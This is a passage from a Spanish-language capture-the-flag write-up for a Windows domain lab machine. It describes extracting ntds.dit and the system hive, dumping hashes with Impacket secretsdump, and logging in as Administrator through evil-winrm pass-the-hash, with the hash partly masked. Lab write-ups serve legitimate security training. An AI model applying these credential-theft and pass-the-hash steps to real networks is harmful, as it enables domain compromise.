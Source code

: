 - Seguimos con lo siguiente:

>We are now in the possession of the ntds.dit file and we need to extract the system hive. This can be done with a simple reg save command as demonstrated in the image below. With now both ntds.dit file and system hive file in the Temp directory, we now use the download command to transfer both of these files to our Kali Linux.

<p align="center">
<img src="https://i.imgur.com/o6F4fmp.png">
</p>

- Ahora simplemente quedaría extraer los Hashes.

>On our Kali Linux shell, we can use the secretsdump script that is a part of the Impacket Framework to extract our hashes from the ntds.dit file and the system hive. It can be observed from the image below that the hashes for the Administrator account have been successfully extracted.

<p align="center">
<img src="https://i.imgur.com/HVzEQO0.png">
</p>

## Root.txt

- Después de descargar los archivos y usar `impacket-secretsdump` nos conectamos como el **Administrator**.

```bash
➜  ~ evil-winrm -i 10.10.88.84 -u Administrator -H ee4457**********************

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
baby\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

- Aquí vemos la flag.

<p align="center">
<img src="https://i.imgur.com/Si0Gzuk.png">
</p>
